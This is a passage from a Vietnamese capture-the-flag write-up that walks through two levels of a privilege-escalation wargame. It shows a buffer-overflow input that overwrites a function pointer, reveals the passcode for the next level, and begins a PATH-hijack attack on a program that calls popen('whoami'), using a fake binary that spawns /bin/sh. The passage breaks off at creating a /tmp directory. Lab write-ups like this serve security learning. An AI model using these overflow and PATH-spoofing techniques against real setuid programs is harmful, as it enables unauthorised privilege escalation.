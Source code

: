 - Thử tới **76** chữ `a`, tới ký tự thứ 77 thì địa chỉ `functionpointer` sẽ thay
  đổi:

![Untitled 6](https://user-images.githubusercontent.com/64480713/182160178-671d0d85-584a-4498-a088-c95f46fa5a2f.png)

Và khi dịch chuyển từ `a` → `z` thì ký tự `z` sẽ cho ra kết quả đúng:

```bash
./level03 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaz
```

![Untitled 7](https://user-images.githubusercontent.com/64480713/182160182-5a411be8-b911-45fa-9134-8e1e8204425f.png)

> 💡 Passcode cho level 4 là: `7WhHa5HWMNRAYl9T`

- Đổi user sang `level04` bằng cách chạy lệnh sau và nhập password là passcode
  vừa lấy được:

```bash
su - level4
```

## Level 4:

- Ta có chương trình C như sau:

```c
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```

- Có thể thấy file C này không có chạy lệnh như: `execl("/bin/sh", "sh", NULL);`
  hay `system("/bin/sh");` như các level trước.
- Vậy thì ta có thể **giả mạo** file `whoami` để có thể thực thi các lệnh như
  mong muốn từ đó truy cập vào user `level5`:

```c
#include <stdlib.h>
int main(){
    system("/bin/sh");
    return 0;
}
```

- Đầu tiên tạo một thư mục tại `/tmp`:

```bash
mkdir /tmp/duckymomo20012
```
